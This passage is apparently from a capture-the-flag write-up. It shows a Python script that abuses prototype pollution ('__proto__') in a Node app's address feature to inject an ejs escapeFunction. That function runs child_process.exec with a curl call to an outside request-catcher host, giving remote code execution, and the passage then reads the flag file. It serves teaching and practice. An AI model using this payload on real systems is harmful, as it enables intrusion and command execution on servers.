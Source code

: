 ```py

def view_admin_orders():
    url = f'{base_url}/admin'
    response = session.get(url)
    if response.status_code == 200:
        print("Admin Orders:")
        print(response.text)
    else:
        print("Failed to retrieve orders or unauthorized access")

if __name__ == '__main__':
    register("__proto__", "random")
    add_address("__proto__", "client", "1")
    cmd = "curl https://dragon.requestcatcher.com/hacked"
    add_address("__proto__", "escapeFunction", "JSON.stringify; process.mainModule.require('child_process').exec('" + cmd + "')")

    view_admin_orders()
```

The above script pollutes the `__proto__` and sets `client` and `escapeFunction` with values that allows us to execute commands whenever ejs renders the page, effectively giving us Remote Code Execution. Now we can simply use `ls` and then `cat flagfile` to obtain our flag.